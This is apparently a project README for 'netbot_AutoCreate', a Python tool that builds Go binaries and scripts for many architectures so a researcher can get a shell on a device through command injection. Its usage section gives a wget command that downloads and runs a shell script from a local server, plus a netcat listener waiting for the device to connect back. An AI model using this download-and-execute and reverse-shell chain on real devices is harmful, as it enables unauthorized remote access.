

# netbot_AutoCreate

## Introduction

During the research on a certain device, it was found that there were no tools such as ssh or telnet in the device, and the command injection vulnerability was not revealed, so I came up with a way to use the botnet to return a simple shell tool.

Automatically generate and compile binary files of various systems and architectures based on golang, and minimize them during compilation.

Automatically generate script files

## Usage

python3 netbot_AutoCreate.py

Generate a file named fileName.OS.ARCH in the “bins” directory.

Use wget or curl to download the sh file in command execution.

> wget http://192.168.1.171:8000/test.sh;chmod +x test.sh;sh test.sh

Then start `netcat` and wait for the device to connect actively.

> nc -lvvp 9999

---
